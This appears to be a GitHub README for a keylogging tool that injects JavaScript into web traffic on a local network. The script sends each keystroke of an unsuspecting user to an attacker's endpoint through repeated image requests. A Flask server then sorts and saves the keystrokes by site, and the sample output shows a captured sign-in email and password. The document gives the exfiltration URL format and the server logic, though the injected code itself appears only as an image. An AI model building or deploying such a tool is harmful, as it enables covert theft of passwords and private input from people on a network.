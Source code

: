 # How does it work?

This works by injecting the following Javascript code into requests that take place on your local network.

<p align="center">
<img width=700px src ="static/code.png">
</p>

## Client Side

The unsuspecting user browses the web normally without experiencing any warnings/interuptions.

<p align="center">
<img width=500px src ="static/demo.gif">
</p>

Every 200ms, the client loads an "image" hosted at:

```
https://{ENDPOINT}/?c=[{"k":{KEY_PRESS},"t":{TIME_STAMP},"w":{HOSTNAME}}]
```

## Server Side

When the client reloads the image, a GET request is made to our Flask application.  We get the URL-encoded JSON object from the "c" query parameter, and it gives us something like this:

```javascript
[
    {
        "k": "t",
        "t": 186207233,
        "w": "www.ebay.com"
    },
    {
        "k": "r",
        "t": 186207235,
        "w": "www.ebay.com"
    },
    {
        "k": "t",
        "t": 186207238,
        "w": "www.ebay.com"
    }
]
```

Occasionally these keystrokes will not be in order, so we sort them by timestamp using the values in "t".

On the server side, we have logic that categorizes the keystrokes by the hostname of the site the request is sent from.  We save the keystrokes by hostname in the root directory of the project.

```bash
$ cat www.ebay.com
raspberry piEnteraphone casesEnter9400Backspace30
```

```bash
$ cat signin.ebay.com
totallynotarealemail@gmail.comfakepasswordEnter
```
